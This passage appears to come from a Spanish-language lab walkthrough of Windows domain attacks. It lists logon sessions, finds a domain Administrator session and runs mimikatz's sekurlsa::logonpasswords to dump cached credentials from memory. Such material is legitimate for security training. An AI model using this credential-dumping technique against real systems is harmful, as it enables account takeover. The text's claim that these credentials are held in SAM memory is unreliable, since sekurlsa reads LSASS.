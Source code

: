 ```powershell
cd C:\Users\empleado1\Desktop\logonSessions
.\logonsessions.exe
```

Info:

```
...........................<RESTO_DEL_CODIGO>....................................

[9] Logon session 00000000:0023e015:
    User name:    CORP\empleado1
    Auth package: Kerberos
    Logon type:   Interactive
    Session:      2
    Sid:          S-1-5-21-3352250647-938130414-2449934813-1104
    Logon time:   19/01/2025 9:39:14
    Logon server: DC01
    DNS Domain:   CORP.LOCAL
    UPN:          empleado1@corp.local

[10] Logon session 00000000:0023e03b:
    User name:    CORP\empleado1
    Auth package: Kerberos
    Logon type:   Interactive
    Session:      2
    Sid:          S-1-5-21-3352250647-938130414-2449934813-1104
    Logon time:   19/01/2025 9:39:14
    Logon server: DC01
    DNS Domain:   CORP.LOCAL
    UPN:          empleado1@corp.local

[11] Logon session 00000000:0031a59f:
    User name:    CORP\Administrator
    Auth package: Kerberos
    Logon type:   Interactive
    Session:      0
    Sid:          S-1-5-21-3352250647-938130414-2449934813-500
    Logon time:   19/01/2025 9:52:13
    Logon server: DC01
    DNS Domain:   CORP.LOCAL
    UPN:          Administrator@corp.local
```

Vemos que la `9` y `10` es el usuario `empleado1` pero como `administrador` local y el numero `11` es el `Administrador` del dominio.

Ahora como vemos que estos tienen una `logon session` podremos obtener sus credenciales mediante `mimikatz` ya que como dijimos anteriormente se guardan en memoria `SAM` y podremos extraerlas.

Dentro de `mimikatz`:

```powershell
sekurlsa::logonpasswords
```
